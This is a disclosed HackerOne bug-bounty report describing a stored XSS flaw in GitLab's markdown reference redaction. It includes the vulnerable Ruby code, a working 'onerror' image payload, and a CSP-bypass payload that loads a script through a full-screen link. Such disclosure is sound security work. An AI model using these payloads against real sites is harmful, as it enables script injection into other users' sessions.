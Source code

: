 # Stored XSS in markdown when redacting references

## Report Details
- **Report ID**: 836649
- **URL**: https://hackerone.com/reports/836649
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-04-01T22:46:10.314Z
- **Disclosed**: 2020-09-09T21:58:37.456Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary
It's possible to inject arbitrary html into the markdown by abusing the ReferenceRedactorFilter. This is due to the `data-original` attribute allowing html encoded data to be stored, which is then extracted and used as the link content. If the original data already is html encoded then it will be unencoded after it is redacted:

```ruby
    def redacted_node_content(node)
      original_content = node.attr('data-original')
      link_reference = node.attr('data-link-reference')

      # Build the raw <a> tag just with a link as href and content if
      # it's originally a link pattern. We shouldn't return a plain text href.
      original_link =
        if link_reference == 'true'
          href = node.attr('href')
          content = original_content

          %(<a href="#{href}">#{content}</a>)
        end

      # The reference should be replaced by the original link's content,
      # which is not always the same as the rendered one.
      original_link || original_content || node.inner_html
    end
```

### Steps to reproduce
1. create a private project with one account
1. create an issue in the private project
1. sign into another account that does not have permission to read the above project
1. comment on an issue linking to the private issue using the following:

    ```markdown
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">xss &lt;img onerror=alert(1) src=x></a>
    ```
1. The rendered markdown contains the injected html:

    ```html
<div class="md"><p data-sourcepos="1:1-1:124" dir="auto">link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1">xss <img onerror="alert(1)" src="x"></a></p></div>
    ```

The above is blocked by the csp, but that can be bypassed similar to https://hackerone.com/reports/662287#activity-6026826 (requires clicking anywhere on the page, but the link is full screen):

```markdown
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">csp 
&lt;a 
  data-remote=&quot;true&quot;
  data-method=&quot;get&quot;
  data-type=&quot;script&quot;
  href=/wbowling/wiki/raw/master/test.js
  class='atwho-view select2-drop-mask pika-select'
&gt;
  &lt;img height=10000 width=10000&gt;
&lt;/a&gt;
</a>
```

which generates the following html:
```html
<div class="md issue-realtime-trigger-pulse"><p data-sourcepos="1:1-11:4" dir="auto">link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1">csp
</a><a data-remote="true" data-method="get" data-type="script" href="/wbowling/wiki/raw/master/test.js" class="atwho-view select2-drop-mask pika-select">
<img height="10000" width="10000">
</a>
</p></div>
```

### Impact
Anywhere the `ReferenceRedactor` is run arbitrary html can be injected. A user can setup their own private project, then post a comment or an issue on a public project linking to it and injecting the xss

### Examples
* example payload: https://gitlab.com/vakzz-h1/stored-xss/-/issues/1
* with csp bypass (requires clicking anywhere on the page): https://gitlab.com/vakzz-h1/stored-xss/-/issues/2

### What is the current *bug* behavior?
The `data-original` attribute can be abused to inject arbitrary html when a reference is redacted.

### What is the expected *correct* behavior?
The `data-original` should be double encoded or filtered before being reused.

### Relevant logs and/or screenshots
{F769570}

### Output of checks
Happens on gitlab.com

#### Results of GitLab environment info

```
System information
System:		Ubuntu 18.04
Proxy:		no
Current User:	git
Using RVM:	no
Ruby Version:	2.6.5p114
Gem Version:	2.7.10
Bundler Version:1.17.3
Rake Version:	12.3.3
Redis Version:	5.0.7
Git Version:	2.24.1
Sidekiq Version:5.2.7
Go Version:	unknown

GitLab information
Version:	12.9.2-ee
Revision:	0ad76f4d374
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	10.12
URL:		http://gitlab-vm.local
HTTP Clone URL:	http://gitlab-vm.local/some-group/some-project.git
SSH Clone URL:	git@gitlab-vm.local:some-group/some-project.git
Elasticsearch:	no
Geo:		no
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers:

GitLab Shell
Version:	12.0.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git
```

## Impact

Anywhere the `ReferenceRedactor` is run arbitrary html can be injected. A user can setup their own private project, then post a comment or an issue on a public project linking to it and injecting the xss

## Attachments
- Screen_Shot_2020-04-02_at_9.44.33_am.png
